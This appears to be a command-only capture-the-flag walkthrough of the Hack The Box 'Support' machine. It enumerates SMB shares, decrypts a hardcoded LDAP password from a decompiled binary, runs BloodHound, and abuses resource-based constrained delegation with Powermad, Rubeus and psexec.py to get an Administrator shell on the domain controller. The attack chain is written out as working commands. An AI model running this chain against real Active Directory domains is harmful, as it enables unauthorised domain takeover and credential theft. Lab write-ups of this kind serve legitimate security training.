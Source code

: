 ```
smbclient -L \\\\10.10.11.174\\
smbclient \\\\10.10.11.174\\support-tools
unzip UserInfo.exe.zip
cat UserInfo.exe.config
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-arm64
sudo ./ILSpy
decrypt.py
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
tar -xf ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
./ApacheDirectoryStudio
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
Get-ADDomain
echo '10.10.11.174 dc.support.htb' | sudo tee -a /etc/hosts
whoami /groups
sudo neo4j start
/opt/BloodHound/BloodHound-linux-x64 ./BloodHound --no-sandbox
upload SharpHound.exe
./SharpHound.exe
download 20240514001541_BloodHound.zip
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
git clone https://github.com/Kevin-Robertson/Powermad.git
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-ADComputer -identity FAKE-COMP01
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
https://www.browserling.com/tools/remove-all-whitespace
base64 -d ticket.kirbi.b64 > ticket.kirbi
locate ticketConverter.py
./ticketConverter.py ticket.kirbi ticket.ccache
locate psexec.py
KRB5CCNAME=ticket.ccache ./psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.11.174
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c513fb68-50d1-41b4-8934-27824a4ed58e)

```
smbclient -L \\\\10.10.11.174\\
smbclient \\\\10.10.11.174\\support-tools
```
![image](https://github.com/regarmulia/HTB/assets/33616880/71fa0c96-fe56-4321-851b-d46f6b8f8795)

```
unzip UserInfo.exe.zip
cat UserInfo.exe.config
```
![image](https://github.com/regarmulia/HTB/assets/33616880/98094d02-a256-46d6-9bf1-f38c289f4c73)


```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
unzip Linux.x64.Release.zip
unzip ILSpy-linux-x64-Release.zip
cd artifacts/linux-arm64
sudo ./ILSpy
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c25352b4-a0c5-4d1c-bd87-6b71045eee0f)

```
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223

res = ''
for e,k in zip(enc_password, cycle(key)):
        res += chr(e ^ k ^ key2)

print(res)
```
```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2b3ae44c-1a69-4e82-92c3-0ffaac79088c)


```
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
tar -xf ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
./ApacheDirectoryStudio
Ironside47pleasure40Watchful
```
![image](https://github.com/regarmulia/HTB/assets/33616880/875c3cc4-807f-429a-8bb9-8b8e08ac724e)


```
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```
![image](https://github.com/regarmulia/HTB/assets/33616880/f0f57e9e-b8fc-4d4d-b8ac-3a129655c56f)


```
Get-ADDomain
echo '10.10.11.174 dc.support.htb' | sudo tee -a /etc/hosts
whoami /groups
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1f8391b0-f0b9-4bac-ac66-73d102f2e7df)


```
sudo neo4j start
/opt/BloodHound/BloodHound-linux-x64 ./BloodHound --no-sandbox

upload SharpHound.exe
./SharpHound.exe
download 20240514001541_BloodHound.zip
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3a94dd19-bd0e-46f4-8099-c5e90c3cb25b)

![image](https://github.com/regarmulia/HTB/assets/33616880/91ef72f1-2187-471b-9c81-94bebd11c9d6)

![image](https://github.com/regarmulia/HTB/assets/33616880/e6e064fc-121f-4fe9-b1c8-2202bedd5815)


```
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3d6b600f-4598-4175-bd67-5112eda8a285)


```
git clone https://github.com/Kevin-Robertson/Powermad.git
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
Get-ADComputer -identity FAKE-COMP01
```
![image](https://github.com/regarmulia/HTB/assets/33616880/df2e4c56-b5f0-4166-8893-5f314a1ddd96)


```
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
Get-ADComputer -Identity DC -Properties PrincipalsAllowedToDelegateToAccount
Get-DomainComputer DC | select msds-allowedtoactonbehalfofotheridentity
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ef2757a0-de07-432e-9a48-9a27e403cc85)


```
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
58A478135A93AC3BF058A5EA0E8FDB71
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
https://www.browserling.com/tools/remove-all-whitespace
base64 -d ticket.kirbi.b64 > ticket.kirbi
locate ticketConverter.py
./ticketConverter.py ticket.kirbi ticket.ccache
locate psexec.py
KRB5CCNAME=ticket.ccache ./psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c7d86351-2afa-4ba9-a89f-33e93dbd0ad5)

![image](https://github.com/regarmulia/HTB/assets/33616880/ae871fd3-7dd0-4315-aac9-3859e1180ef7)
